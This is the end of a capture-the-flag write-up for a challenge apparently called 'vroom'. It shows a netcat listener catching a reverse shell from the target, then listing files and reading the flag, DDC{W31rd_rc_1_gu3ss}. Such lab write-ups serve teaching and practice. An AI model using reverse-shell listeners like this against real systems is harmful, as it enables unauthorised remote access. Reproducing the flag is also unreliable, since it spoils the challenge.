 Let's open a netcat listener and start the solve script:

```text
$ nc -lvnp 1338
Listening on 0.0.0.0 1338
Connection received on 25.209.240.1 53296
sh: 0: can't access tty; job control turned off
# ls
flag.txt
ld-linux-x86-64.so.2
libc.so.6
vroom
# cat flag.txt
DDC{W31rd_rc_1_gu3ss}# 
```

# Flag

`DDC{W31rd_rc_1_gu3ss}`

